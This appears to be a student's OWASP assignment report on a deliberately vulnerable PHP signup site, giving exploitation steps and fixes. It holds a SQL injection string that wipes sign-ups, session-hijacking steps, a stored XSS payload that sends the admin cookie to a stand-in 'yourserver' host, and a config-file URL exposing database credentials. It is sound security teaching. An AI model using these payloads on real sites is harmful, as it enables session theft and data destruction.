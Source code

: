 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

**How:** Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ' OR '1'='1. All the sign-ups are now gone, as you can see from the Admin page!    

**Fix:** The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption. 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.
How (broken session management): You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on): 
1) Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2) Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3) Re-enter the Admin page (do not only reload), and you’re in without entering credentials!
Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.
Fix: Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 
## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
How (stored XSS): Enter this code into the address field on the SignUp page;
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”. But you can also test with code like this, in any of the fields on the SignUp page; 
<body onload=alert('hello')>
Fix:  Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

How: Capture the (imaginary) credit card numbers using OWASP ZAP.

Fix: Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard
Regarding the session cookie and admin credentials, see the A2-fix.
## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
How: Modify “yourserver” in this link to match your installation;  http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
Fix: 

